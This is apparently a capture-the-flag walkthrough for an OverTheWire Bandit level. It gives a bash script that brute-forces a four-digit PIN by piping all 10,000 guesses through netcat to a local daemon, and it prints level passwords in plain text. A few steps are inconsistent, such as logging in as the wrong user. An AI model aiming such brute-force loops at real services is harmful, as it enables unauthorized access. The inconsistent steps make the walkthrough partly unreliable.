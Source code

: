 # Level Goal
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

# Solution

It is apparent that we need to create a script and for training purposes it is going to be a bash script. The script Runs over all the possible 4 digit combinations and then returns the correct value when found.
1. Create a bash script file.
```Bash
touch bruteforce.sh
```

2. The bash Script is as follows.
```Bash
#!/bin/bash
rm /tmp/bandit25/output
for i in {0000..9999}
do 
  echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i
done | nc localhost 30002
```
Notice that the piping to the port is done only after all the combinations had finished computing. The basic reason for this is that if netcat is called everytime, this would create multiple procesess that wont shutdown as we dont know the PID of each command. These processes needs resources to stay alive after they have done their purpose, so after a while there are no longer resources to allocate for new commands and forking fails. So in short, it is more efficient to send all the data all at once instead of sending through the script.

3. Run the script until the password appears.
```Bash
./bruteforce.sh
```
The password should be visible now.

4. Exit the bandit24 shell
```Bash
exit
```

5. ssh into bandit25
```Bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
```
Password: uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
